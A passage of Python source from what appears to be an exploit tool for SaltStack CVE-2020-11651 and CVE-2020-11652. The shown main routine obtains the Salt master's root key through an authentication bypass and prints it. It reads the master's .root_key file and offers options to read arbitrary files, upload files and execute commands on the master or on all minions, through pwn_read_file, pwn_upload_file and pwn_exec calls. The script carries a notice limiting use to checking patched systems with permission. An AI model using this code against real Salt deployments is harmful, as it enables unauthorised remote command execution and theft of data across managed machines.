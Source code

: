 ```python
    parser.add_argument('--upload-src', dest='upload_src')
    parser.add_argument('--upload-dest', dest='upload_dest')
    parser.add_argument('--exec', dest='exec', help='Run a command on the master')
    parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
    args = parser.parse_args()

    print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
    time.sleep(1)

    # Both src and destination are required for uploads
    if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
        print('[-] Must provide both --upload-src and --upload-dest')
        sys.exit(1)

    channel = init_minion(args.master_ip, args.master_port)

    check_connection(args.master_ip, args.master_port, channel)
    
    root_key = check_CVE_2020_11651(channel)
    if root_key:
        print('[*] root key obtained: {}'.format(root_key))
    else:
        print('[-] Failed to find root key...aborting')
        sys.exit(127)

    if args.run_checks:
        # Assuming this check runs on the master itself, create a file with "secret" content
        # and abuse CVE-2020-11652 to read it.
        top_secret_file_path = '/tmp/salt_cve_teta'
        with salt.utils.fopen(top_secret_file_path, 'w') as fd:
            fd.write("top secret")

        # Again, this assumes we're running this check on the master itself
        with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
            root_key = keyfd.read()

        check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
        check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
        check_CVE_2020_11652_write1(debug, channel, root_key)
        check_CVE_2020_11652_write2(debug, channel, root_key)
        os.remove(top_secret_file_path)
        sys.exit(0)

    if args.read_file:
        pwn_read_file(channel, root_key, args.read_file, args.master_ip)

    if args.upload_src:
        if os.path.isabs(args.upload_dest):
            print('[-] Destination path must be relative; aborting')
            sys.exit(1)
        pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


    jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

    if args.exec:
        pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

    if args.exec_all:
        print("[!] Lester, is this what you want? Hit ^C to abort.")
        time.sleep(2)
```